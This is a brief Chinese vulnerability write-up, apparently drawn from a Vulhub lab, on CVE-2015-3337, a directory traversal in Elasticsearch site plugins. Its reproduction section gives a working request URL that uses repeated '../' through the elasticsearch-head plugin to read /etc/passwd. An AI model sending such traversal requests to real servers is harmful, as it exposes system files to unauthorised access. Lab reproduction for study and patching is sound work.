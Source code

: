 （CVE-2015-3337）ElasticSearch 目录穿越漏洞
===========================================

一、漏洞简介
------------

在安装了具有"site"功能的插件以后，插件目录使用`../`即可向上跳转，导致目录穿越漏洞，可读取任意文件。没有安装任意插件的elasticsearch不受影响。

二、漏洞影响
------------

影响版本：1.4.5以下/1.5.2以下

三、复现过程
------------

编译及运行测试环境

    docker-compose build
    docker-compose up -d

测试环境默认安装了一个插件：`elasticsearch-head`，主页在此：https://github.com/mobz/elasticsearch-head

访问`http://www.0-sec.org:9200/_plugin/head/../../../../../../../../../etc/passwd`读取任意文件（不要在浏览器访问）：

![](resource/(CVE-2015-3337)ElasticSearch目录穿越漏洞/media/rId24.png)

### head插件

head插件提供了elasticsearch的前端页面，访问
`http://www.0-sec.org:9200/_plugin/head/` 即可看到，不多说了。

参考链接
--------

> https://vulhub.org/\#/environments/elasticsearch/CVE-2015-3337/
